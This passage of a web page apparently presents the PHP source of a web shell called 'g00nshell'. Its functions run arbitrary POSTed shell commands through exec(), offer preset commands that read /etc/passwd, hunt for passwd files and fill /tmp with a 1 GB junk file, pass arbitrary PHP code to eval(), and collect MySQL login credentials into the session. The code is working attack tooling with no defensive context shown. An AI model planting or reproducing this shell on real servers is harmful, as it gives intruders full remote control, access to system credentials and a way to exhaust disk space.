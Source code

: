 }
function cmd(){ // Command execution function
  style();
  echo("&lt;form name='CMD' method='POST'&gt;");
  echo("&lt;b&gt;Command:&lt;/b&gt;&lt;br&gt;");
  echo("&lt;input name='cmd' type='text' size='50'&gt; ");
  echo("&lt;select name='precmd'&gt;");
  $precmd = array(''=&gt;'','Read /etc/passwd'=&gt;'cat /etc/passwd','Open ports'=&gt;'netstat -an',
                  'Running Processes'=&gt;'ps -aux', 'Uname'=&gt;'uname -a', 'Get UID'=&gt;'id',
                  'Create Junkfile (/tmp/z)'=&gt;'dd if=/dev/zero of=/tmp/z bs=1M count=1024',
                  'Find passwd files'=&gt;'find / -type f -name passwd');
  $capt = array_flip($precmd);
  foreach($precmd as $c){echo("&lt;option value='" . $c . "'&gt;" . $capt[$c] . "\n");}
  echo("&lt;/select&gt;&lt;br&gt;\n");
  echo("&lt;input type='submit' value='Execute'&gt;\n");
  echo("&lt;/form&gt;\n");
  if($_POST['cmd'] != ""){$x = $_POST['cmd'];}
  elseif($_POST['precmd'] != ""){$x = $_POST['precmd'];}
  else{die();}
  echo("Results: &lt;br&gt;&lt;textarea rows=20 cols=100&gt;");
  $cmd = @exec($x, $result);
  foreach($result as $line){echo($line . "\n");}
  echo("&lt;/textarea&gt;");
}
function execphp(){ // PHP code execution function
  style();
  echo("&lt;h4&gt;Execute PHP Code&lt;/h4&gt;");
  echo("&lt;form method='POST'&gt;");
  echo("&lt;textarea name='phpexec' rows=5 cols=100&gt;");
  if(!$_POST['phpexec']){echo("/*Don't include <? ?> tags*/\n");}
  echo(htmlentities($_POST['phpexec']) . "&lt;/textarea&gt;\n&lt;br&gt;\n");
  echo("&lt;input type='submit' value='Execute'&gt;");
  echo("&lt;/form&gt;");
  if($_POST['phpexec']){
    echo("&lt;textarea rows=10 cols=100&gt;");
    eval(stripslashes($_POST['phpexec']));
    echo("&lt;/textarea&gt;");
  }
}
function sqllogin(){ // MySQL login function
  session_start();
  if($_SESSION['isloggedin'] == "true"){
    header("Location: ?act=sql");
  }
  style();
  echo("&lt;form method='post' action='?act=sql'&gt;");
  echo("User:&lt;br&gt;&lt;input type='text' name='un' size='30'&gt;&lt;br&gt;\n");
  echo("Password:&lt;br&gt;&lt;input type='text' name='pw' size='30'&gt;&lt;br&gt;\n");
  echo("Host:&lt;br&gt;&lt;input type='text' name='host' size='30' value='localhost'&gt;&lt;br&gt;\n");
  echo("Port:&lt;br&gt;&lt;input type='text' name='port' size='30' value='3306'&gt;&lt;br&gt;\n");
  echo("&lt;input type='submit' value='Login'&gt;");
  echo("&lt;/form&gt;");
  die();
}
function sql(){ // General SQL Function
  session_start();
  if(!$_GET['sqlf']){style();}
  if($_POST['un'] && $_POST['pw']){;
    $_SESSION['sql_user'] = $_POST['un'];
    $_SESSION['sql_password'] = $_POST['pw'];
  }
  if($_POST['host']){$_SESSION['sql_host'] = $_POST['host'];}
  else{$_SESSION['sql_host'] = 'localhost';}

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png